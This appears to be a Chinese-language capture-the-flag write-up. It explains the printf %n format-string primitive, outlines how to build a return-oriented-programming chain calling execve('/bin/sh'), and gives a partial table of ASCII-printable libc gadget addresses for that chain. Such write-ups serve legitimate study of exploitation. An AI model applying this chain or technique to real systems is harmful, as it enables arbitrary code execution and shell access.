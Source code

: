 	int addr;
	printf("aaaa%n\n", &addr);
	printf("addr = %d\n", addr);
这里的输出结果是什么呢？
	
	aaaa	
	addr = 4;
为什么会有这样的输出呢？因为%n这个格式化符，它会修改addr地址中的值，这个值代表之前字符的个数，在这里也就是4。利用这个技巧就可以修改指定地址中的值为0。然后找一下printf函数的地址偏移为0x4c480，再加上一个基地址就是0x555aa480，不符合ascii字符的限制，这条路也被堵死了，看来还有其他方法，知识积累不够，只能多查查资料了。

## 解题过程 ##

##### 0x01 

​	后来发现还有一种叫ROP的技术，全称叫return-oriented-programming，是一种高级的内存攻击技术，可以用来绕过堆栈不可执行等防御措施。它主要是利用一些现有程序中的代码片段来控制程序的执行，从而获得shell，这些代码片段有个叫法：gadgets。

gadgets是一些连续的指令，这些指令都是以ret指令或者类似ret指令的分支指令结束，如下所示：

Intel 示例：

- pop eax; ret
- xor ebx, ebb; ret

ARM示例：

- pop {r4, pc}
- str r1, [r0]; bx lr

在这个题目中，很明显就要用到这种技术。生成ROP链的一般步骤如下：

1. 利用gadgets在内存中写入`/bin/sh`字符串或者找到`/bin/sh`的地址；
2. 利用gadgets来初始化系统调用号(`execve-11`);
3. 利用gadgets来初始化系统调用的参数；
4. 找到int 0x80或者syscall对应的gadgets；

这样就可以构造完成的gadgets链payload，也就是说最终利用的是系统调用execve来进行攻击的。

```c
int execve(const char *filename, char *const argv[], char *const envp[]);
execve("/bin/sh", 0, 0)
```

##### 0x02

​	首先使用ROPGadgets工具来过滤gadgets，根据题目要求，输入必须是有效的ascii字符才行，也就是说gadgets地址再加上基地址(0x5555e000)之后每个字节必须在[0x20,0x7f]之间，因此需要进行过滤才行，用python对`ROPGadgets --binary libc-2.15.so`的结果进行过滤，最终输出所有有效的gadgets，并进行筛选。

利用eax计算出/bin/sh的地址，然后push到ebx中

| 栈         | ascii | gadgets                                               | description                |
| ---------- | ----- | ----------------------------------------------------- | -------------------------- |
| 0x556f4525 | UoE%  | pop edx; add dword ptr [edx], ecx; ret                |                            |
| 0x55616161 | Uaaa  |                                                       | edx = 0x55616161           |
| 0x5557506b | UWPk  | pop eax ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret |                            |
|            | /bin  |                                                       | eax = "/bin"               |
|            | aaaa  |                                                       |                            |
|            | bbbb  |                                                       |                            |
|            | cccc  |                                                       |                            |
|            | dddd  |                                                       |                            |
| 0x5560645c | U`d\  | mov dword ptr [edx], eax ; ret                        | [edx] = eax                |
|            | UoE%  | pop edx; add dword ptr [edx], ecx; ret                |                            |
